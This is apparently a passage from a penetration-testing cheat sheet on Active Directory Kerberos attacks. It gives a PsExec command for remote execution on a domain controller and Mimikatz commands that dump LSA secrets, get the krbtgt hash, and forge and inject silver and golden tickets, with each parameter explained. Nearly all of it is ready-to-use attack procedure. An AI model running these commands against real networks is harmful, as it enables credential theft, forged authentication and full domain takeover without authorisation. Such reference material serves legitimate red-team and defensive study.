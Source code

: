 ```
.\PsExec.exe \\dc01 cmd.exe
```

### Silver ticket

Goal: forge a TGS, using the service account password or NTLM hash, with desired permissions

Using Mimikatz:

```
# Flush existing tickets
kerberos::purge

# Verify the purge
kerberos::list

# Forge the silver ticket
kerberos::golden /user:username /domain:example.com /sid:<domain SID> /target:<server FQDN> /service:<service> /rc4:<service account hash> /ptt
```

* `/user`: username
* `/domain`: domain name
* `/sid`: domain SID.
  * Can be retrieved by checking current user SID: `whoami /user`
* `/target`: server FQDN
* `/service`: service type, like HTTP, MSSQL
* `/rc4`: service NTLM hash.
  * To generate the hash from the password: `kerberos::hash /password:<password>`
* `/ptt`: inject the forged ticket into memory

### Golden ticket

Goal: use `krbtgt` NTLM hash to forge TGT tickets

Using Mimikatz on DC:

```
privilege::debug
lsadump::lsa /patch
```

Forge golden ticket using Mimikatz:

```
# Flush existing tickets
kerberos::purge

# Forge golden ticket
kerberos::golden /user:fakeuser /domain:domain.com /sid:<domain SID> /krbtgt:<krbtgt hash> /ptt
```

* `/user`: username in the TGT
* `/domain`: domain name
* `/sid`: domain SID
* `/krbtgt`: krbtgt NTLM hash
* `/ptt`: inject the forged ticket into memory
